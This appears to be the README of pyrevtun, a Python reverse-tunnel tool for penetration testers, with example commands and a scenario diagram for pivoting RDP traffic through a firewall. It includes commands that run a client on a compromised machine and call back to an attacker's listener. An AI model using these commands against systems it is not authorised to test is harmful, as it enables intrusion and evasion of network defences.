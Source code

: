 # pyrevtun

Description
===========
A pure Python reverse tunnel/reverse port forward utility (prototype) to forward TCP protocols over SSL/TLS.  This tool is designed for penetration testers and security enthusiasts.

Inspiration
===========
- Firecat: http://www.bishopfox.com/resources/tools/other-free-tools/firecat/
- Powercat: https://github.com/besimorhino/powercat/
- Socket "recvall" function: http://code.activestate.com/recipes/213239-recvall-corollary-to-socketsendall/

Requirements
============
- Python 2.7.x
- X509 PEM public/private key (unprotected)
- A password of your choice

Tool Usage
==========
1) On the penetration tester's local machine, setup pyrevtun in listener mode:

- python pyrevtun.py -m listener -l [IP:port] -t [local tunnel port] -s [certificate file] -k [private key file] -p [auth password]
- e.g. python pyrevtun.py -m listener -l 192.168.1.59:443 -t 33389 -s example_cert.pem -k example_key.pem -p pass

2) On compromised machine, setup pyrevtun in client mode:

- python pyrevtun.py -m client -l [listener IP:port] -c [target IP:port] -p [auth password]
- e.g. python pyrevtun.py -m client -l 192.168.102.59:443 -c 10.5.5.5:3389 -p pass
- This connection will open up the chosen local port on the pen test machine.

3) Using TCP app (i.e. RDP, SSH client), connect to specified local port as [localhost:local tunnel port] 
- e.g. localhost:33389

*To prevent lockup, run in the background (&)

A practical Scenario
====================

1] [Pen Test Machine] <----rev conn---- [Firewall] <------- [Compromised Machine]    ?    [Destination Machine]

- In this example, the penetration tester has compromised an internal network machine and has initiated a reverse connection (client mode) with pyrevtun back the the attack machine (listening mode).  The local port opens on the attack machine.

2) [Pen Test Machine] ----tunnel conn----> [Firewall] -------> [Compromised Machine] --------> [Destination Machine]

- The penetration tester connects to the the local port on the pen test machine (e.g. RDP).  RDP is forwarded over the reverse connection to the destination machine through the firewall and compromised machine.

Bugs/Issues
===========
- Socket shutdown/closure is not always graceful (may need to kill the process manually).
- Protocols like RDP (NLA auth) can be finicky.  If it doesn't work the first time, try it again.

Tool Usage & Ethics
===================
This tool was designed to help security professionals perform ethical and legal vulnerability assessments and penetration tests.  Do not use for nefarious purposes.

Also, I "program" for functionality, not necessarily final completion.  I am striving the for latter a little more each day...so if you find any major problems, let me know.
